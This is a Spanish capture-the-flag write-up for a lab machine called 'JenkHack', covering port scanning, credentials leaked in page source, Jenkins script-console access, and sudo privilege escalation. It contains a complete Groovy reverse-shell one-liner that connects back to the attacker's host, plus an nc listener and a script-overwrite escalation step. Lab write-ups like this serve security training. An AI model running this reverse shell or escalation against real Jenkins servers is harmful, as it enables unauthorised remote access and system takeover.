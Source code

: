 ```yaml
---
description: '✍️ Autor: d1se0  🔍 Dificultad: Fácil  📅 Fecha de creación: 05/09/2024'
---
```


# JenkHack

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP,** el **puerto 443** perteneciente al **servicio HTTPS** y el **puerto 8080** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80,443,8080 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (809).png" alt=""><figcaption></figcaption></figure>

Añadimos el dominio al fichero `/etc/hosts`. Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Hacker Nexus.

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente hay parece unas credenciales del usuario **admin**.

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>

Miramos el contenido del **puerto 8080** y hay un panel de Login de **Jenkins**. Ingresamos esas credenciales.

### 🚀 **EXPLOTACIÓN**

<figure><img src="../../.gitbook/assets/image (812).png" alt=""><figcaption></figcaption></figure>

Estamos dentro. Seleccionamos **manage jenkin**s y luego **script console** que nos permite enviar una reverse shell mediante **Groovy** mediante nos ponemos en escucha.

```
String host="172.17.0.1";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (813).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

Indagando entre los directorios encontramos un archivo que descodificamos con este [página](https://gchq.github.io/CyberChef/#recipe=From\_Base85\('!-u',true,'z'\)\&input=QzFWOXVCbDghJ0NpKmB1RGZQ).

<figure><img src="../../.gitbook/assets/image (815).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (814).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (816).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos SUDO con bash por lo que miramos como elevar los privilegios con esta [página](https://gtfobins.github.io/gtfobins/bash/). Hay un archivo en el directorio `/opt` llamado **bash.sh**. Borramos el archivo y editamos su contenido.

```bash
#!/bin/bash
whoami
/bin/bash
```

Le damos permiso al archivo.

```bash
chmod +x bash.sh
```

Ejecutamos.

```bash
sudo /usr/local/bin/bash
```

<figure><img src="../../.gitbook/assets/image (817).png" alt=""><figcaption></figcaption></figure>
